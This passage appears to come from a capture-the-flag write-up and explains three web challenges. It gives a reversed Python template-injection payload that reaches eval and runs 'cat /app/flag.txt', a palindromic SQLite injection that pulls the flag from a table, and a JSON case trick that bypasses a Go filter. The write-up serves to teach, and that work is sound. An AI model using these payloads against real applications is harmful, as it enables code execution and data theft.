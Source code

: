 ```python
}})')(daer.)"txt.galf/ppa/ tac"(nepop.)"so"(__tropmi__'(]'lave'[]'__snitliub__'[__slabolg__.__tini__.]331[)(__sessalcbus__.]0[__sesab__.__ssalc__.''{{
```

### 简单的注入

In the palindrome submit, we can start SQL injection attack.

The input should be a palindrome string.

```sqlite
'||(select flag from flags));--;))sgalfmorfgalftceles(||'
```

### 简单的序列

A simple GoLang unmarshal challenge. The GoLang's unmarshal doesn't care about the case of json, we can use upper case to bypass the filter.

```json
{
    "whaT_point":"that_point"
}
```

## Remarks

Hope you enjoy this competition, and take this practice as a learning progress.
